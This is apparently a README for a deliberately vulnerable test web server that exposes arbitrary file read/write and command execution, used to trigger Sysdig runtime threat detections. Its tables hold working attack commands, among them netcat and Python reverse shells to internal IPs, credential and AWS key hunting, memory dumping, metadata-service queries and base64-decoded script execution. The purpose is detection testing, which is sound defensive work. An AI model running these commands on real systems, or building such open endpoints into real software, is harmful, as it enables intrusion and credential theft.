 # Security Playground

The security playground is a HTTP web server that alllows you to simulate various security breaches in runtime.

## Installation

Use the deployment.yaml to deploy this to your kubernetes cluster, it will deploy
- Deployment with 1 Replica of the pod
- LoadBalancer Service to expose the web server on port 80/HTTP

```bash
kubectl apply -f kubernetes-manifests/deployment.yaml
```

Or run it locally in using docker

```bash
docker run --rm -p 8080:8080 ghcr.io/andrewd-sysdig/security-playground:latest
```

## Usage

The HTTP API exposes three endpoints to interact with the system.

### Reading a file

You can read a file using just the URL. This will return the content of the /etc/shadow file.

```bash
curl http://<webserver>/etc/shadow
```

### Writing a file

You can write to a file using the URL and POSTing the content. This will write to /bin/hello the hello-world string.

```bash
curl -X POST http://<webserver>/bin/hello -d 'content=hello-world'
```

### Executing a command

You can execute a command using the /exec endpoint and POSTing the command. This will capture and return the STDOUT of the command executed.

```bash
curl -X POST http://<webserver>/exec -d 'command=ls -la'
```

## Library of curl commands to trigger various Sysdig Events

Set the WEBSERVERIP env variable to be the IP of your target (the pod/service)

```bash
export WEBSERVERIP=192.168.1.15
```

## Library of curl commands to trigger various Sysdig Events

> **Sysdig Managed Policy: Sysdig Runtime Threat Detection (Severity: High)**

| Sysdig Event | Curl Command   |
|---|---|
| Reconnaissance attempt to find SUID binaries | `curl -X POST http://$WEBSERVERIP/exec -d 'command=find / -perm -u=s -type f 2>/dev/null'` |
| Dump memory for credentials | `curl -X POST http://$WEBSERVERIP/exec -d 'command=grep passwd /proc/1/mem'` |
| Find AWS Credentials | `curl -X POST http://$WEBSERVERIP/exec -d 'command=grep aws_access_key_id /tmp/'` |
| Netcat Remote Code Execution in Contianer | `curl -X POST http://$WEBSERVERIP/exec -d 'command=nc -c bash 10.0.0.1 4242'` |
| Suspicious Home Directory Creation | `curl -X POST http://$WEBSERVERIP/exec -d 'command=adduser -h /dev/null -s /bin/sh test3 -D'` |
| Base64-encoded Python Script Execution | `curl -X POST http://$WEBSERVERIP/exec -d 'command=echo cHl0aG9uMyAtYyAnaW1wb3J0IF9faGVsbG9fXycK \| base64 -d \| sh'` |
| Base64-encoded Shell Script Execution | `curl -X POST http://$WEBSERVERIP/exec -d 'command=echo IyEvYmluL3NoCmVjaG8gIkhlbGxvIFdvcmxkIgo= \|base64 -d \|sh'` |
| Base64'd ELF file on Command Line | `curl -X POST http://$WEBSERVERIP/exec -d 'command=echo f0VMRgIB1M== \|base64 -d > hello'` |

> **Sysdig Managed Policy: Sysdig Runtime Notable Events (Severity: Medium)**

| Sysdig Event | Curl Command   |
|---|---|
| Contact Azure Instance Metadata Service from Container | `curl -X POST http://$WEBSERVERIP/exec -d 'command=curl http://169.254.169.254/metadata/instance'` |
| Read sensitive file untrusted | `curl http://$WEBSERVERIP/etc/shadow` |
| Redirect STDOUT/STDIN to Network Connection in Container | `curl -X POST ${WEBSERVERIP}/exec -d command="python -c 'import socket,os,pty;s=socket.socket();s.connect((\"192.168.1.3\",4242));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")'"` |

